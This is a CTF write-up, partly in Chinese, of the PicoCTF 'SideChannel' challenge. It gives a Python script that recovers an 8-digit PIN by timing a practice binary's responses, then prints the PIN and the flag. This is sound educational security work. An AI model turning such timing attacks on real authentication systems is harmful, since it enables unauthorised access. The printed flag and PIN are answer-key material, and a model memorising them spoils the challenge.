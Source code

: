```yaml
---
title: PicoCTF - SideChannel
tags: [PicoCTF, CTF, Misc]

category: "Security > Practice > PicoCTF > Misc > General"
---
```


# PicoCTF - SideChannel
## Description
> There's something fishy about this PIN-code checker, can you figure out the PIN and get the flag? Download the PIN checker program here pin_checker Once you've figured out the PIN (and gotten the checker program to accept it), connect to the master server using nc saturn.picoctf.net 50364 and provide it the PIN to get your flag.
> 
> Hint 1: Read about "timing-based side-channel attacks."
> Hint 2: Attempting to reverse-engineer or exploit the binary won't help you, you can figure out the PIN just by interacting with it and measuring certain properties about it.
> Hint 3: Don't run your attacks against the master server, it is secured against them. The PIN code you get from the pin_checker binary is the same as the one for the master server.
## Recon
這一題也是直接看[^this-problem-wp]才知道怎麼解，應該說原本大概也猜到是這樣解，但過程一直不順利，所以沒寫出來，最主要是一開始沒看hint所以reverse/binary exploitation花了太多時間，結果一無所獲，但大致上思路沒差多少，也就是輸入的pin digit如我是對的就會比一般錯誤的pin digit還要多花點時間處理，所以我們就可以鎖定每一個digit原本到底是甚麼
## Exploit
```python
from time import *
from subprocess import *
from tqdm import trange

time_lapse = []
guess_pin = list("99999999")
for i in trange(8):
    for j in range(10):
        guess_pin[i] = str(j)
        payload = "".join(guess_pin)
        start = time_ns()
        p = Popen("./pin_checker", stdin=PIPE, stdout=PIPE, universal_newlines=True, shell=True)
        p.communicate(input=payload)
        time_lapse.append(time_ns() - start)
    guess_pin[i] = str(time_lapse.index(max(time_lapse)))
    time_lapse = []

print("".join(guess_pin))
```
另外這隻程式不是百分百保證成功，還是要多跑幾次確定一下是不是每次都一樣再進行確認

```bash
$ echo 48390513 | ./pin_checker
Please enter your 8-digit PIN code:
8
Checking PIN...
Access granted. You may use your PIN to log into the master server.
$ echo 48390513 | nc saturn.picoctf.net 50364
Verifying that you are a human...
Please enter the master PIN code:
Password correct. Here's your flag:
picoCTF{t1m1ng_4tt4ck_9803bd25}
```

Flag: `picoCTF{t1m1ng_4tt4ck_9803bd25}`
## Reference
[^this-problem-wp]:[ picoGym (picoCTF) Exercise: SideChannel ](https://youtu.be/6-GmrNobEyA?si=0HVfVpNwLT_yNm3G)